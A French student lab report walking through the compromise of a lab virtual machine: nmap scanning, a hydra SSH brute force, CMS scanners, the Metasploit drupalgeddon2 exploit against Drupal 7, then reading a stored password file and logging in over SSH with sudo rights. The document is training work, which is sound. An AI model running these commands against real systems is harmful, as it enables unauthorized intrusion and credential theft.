

# Rapport du tp

On commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.15/24

On test la connection entre les 2 machines
`ping 10.0.2.15`

on commence par chercher tous les ports ouverts sur la machine cible
`nmap -p- 10.0.2.15`

On voit que 5 ports sont ouverts : le 22, le 80, le 5000, le 8081, le 9001

## Port 22

On peut analyser plus en détail le port 22
`nmap -sC -sV -A -p 22 10.0.2.15`

On voit qu'il y a du ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`

Je ne trouve rien de spécial.

## Port 80

On peut analyser plus en détail le port 80
`nmap -sC -sV -A -p 80 10.0.2.15`

Le port 80 est associé au serveur web. On va donc essayer de se rendre à l'url 10.0.2.15 sur le navigateur

On tombe sur une page web d'un blog, je ne remarque rien d'anormal ici.

Je fais une analyse avec nikto

Ca ne donne rien de concluant

J'essaye de faire une analyse avec dirb sur tous les fichiers, par exemple :
`dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`

Je ne trouve rien d'anormal.

## Port 5000

On peut analyser plus en détail le port 5000
`nmap -sC -sV -A -p 5000 10.0.2.15`

On observe qu'il est indiqué que le site est créé avec Wordpress qui est un CMS ("http-generator: WordPress 5.7.2")

En se rendant à l'url 10.0.2.15:5000, on tombe sur un blog sans css fais avec wordpress.

On peut faire un wpscan qui permet de trouver des vulnérabilité sur les sites fonctionnant avec wordpress.
`wpscan --url http://10.0.2.15:5000`

Je ne remarque rien de spécial.

## Port 8081

On peut analyser plus en détail le port 5000
`nmap -sC -sV -A -p 8081 10.0.2.15`

On remarque que le site est créé avec Joomla, un autre CMS ("http-generator: Joomla ! Open Source Content Management")

En se rendant à l'url 10.0.2.15:8081, on tombe sur une page web où l'on retrouve encore le mot clé Joomla.

On peut faire un joomscan qui permet de trouver des vulnérabilité sur les sites Joomla.
`joomscan -u http://10.0.2.15:8081`

On constate que joomscan détecte des injections SQL.

## Port 9001

On peut analyser plus en détail le port 9001
`nmap -sC -sV -A -p 9001 10.0.2.15`

On remarque que ce site est créé avec Drupal, encore un CMS ("http-generator: Drupal 7")

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités. 

En faisant un `search drupal 7`, on constate qu'il y a des API property injection et des injection SQL :

On peut accéder à "exploit/unix/webapp/drupal_drupalgeddon2" qui a une API Porperty injection. Puis on accèdes aux options.

On constate que RHOSTS n'est pas configuré. RHOSTS permet de spécifié l'ip de la cible. On va donc lui attribué sa valeur "10.0.2.15".
`set rhost 10.0.2.15`

De plus, RPORT est configuré par défaut à 80.

Mais dans notre cas, nous voulons exploiter le port 9001. On défini ainsi le nouveau port ciblé.
`set rport 9001`

Dans les options,, on voit que l'ip de la machine locale est déjà bien configurée donc on a pas besoin de la modifier.

On fais un run pour se connecter à la machine cible, puis avec un `getuid` on peut constater qu'on est connecter avec l'username www-data (qui a des restrictions).

On peut essayer de chercher tous les fichiers contenant le mot "user" :
`search -f *user*`

Je ne trouve rien de concluant.

De même je cherche les fichiers contenant le mot "pass"
`search -f *pass*`

Je découvre un fichier suspects "tyrell.pass" qui pourrait contenir des données d'identification.

Je consultre le contenu de ce fichier et celui-ci contient bien des identifiants de connexion.
`cat ./misc/tyrell.pass`

Je vais essayer de me connecter à la machine cible avec ces identifiants `ssh tyrell@10.0.2.15`

Les identifiants fonctionnent. En tapant la commande `sudo -l` je constate que mon utilisateur a bien les droits root.
